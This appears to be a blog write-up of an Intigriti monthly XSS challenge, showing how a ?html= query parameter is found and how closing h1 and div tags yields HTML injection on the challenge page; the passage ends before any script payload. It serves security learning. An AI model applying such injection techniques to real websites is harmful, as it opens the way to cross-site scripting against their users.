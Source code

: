 +++
date = '2025-01-27T17:07:19+08:00'
draft = false
title = '1021 Halloween Has Taken Over'
+++

# Challenge description

https://bugology.intigriti.io/intigriti-monthly-challenges/1021

Find a way to execute arbitrary javascript on the challenge page

The solution

- Should work on the latest version of Chrome and FireFox.
- Should execute `alert(document.domain)`.
- Should leverage a cross site scripting vulnerability on this domain.
- Shouldn't be self-XSS or related to MiTM attacks.

https://challenge-1021.intigriti.io/challenge/challenge.php

# Finding html injection

In the HTML source, there is a clue that the server accepts `html` query parameter.

```html
<div id="html" class="text">
  <h1 class="light">HALLOWEEN HAS TAKEN OVER!</h1>
  ARE YOU SCARED?<br />ARE YOU STILL SANE?<br />NOBODY CAN BREAK THIS!<br />NOBODY
  CAN SAVE INTIGRITI<br />I USE ?html= TO CONVEY THESE MESSAGES<br />I'LL
  RELEASE INTIGRITI FROM MY WRATH... <br />... AFTER YOU POP AN XSS<br />ELSE,
  INTIGRITI IS MINE!<br />SIGNED* 1337Witch69
</div>
```

Evaluating HTML injection sink:

```sh
https://challenge-1021.intigriti.io/challenge/challenge.php?html=sink
```

Sink output:

```html
</div>
    <!-- !!! -->
      <div id="html" class="text"><h1 class="light">sink</div>
    <!-- !!! -->
    <div class="a">'"</div>
```

We should close the `h1` and `div` element.

`?html=</h1></div><p>HTML Injection sink</p>`

```html
</div>
    <!-- !!! -->
      <div id="html" class="text"><h1 class="light"></h1></div><p>HTML Injection sink</p></div>
    <!-- !!! -->
    <div class="a">'"</div>
```
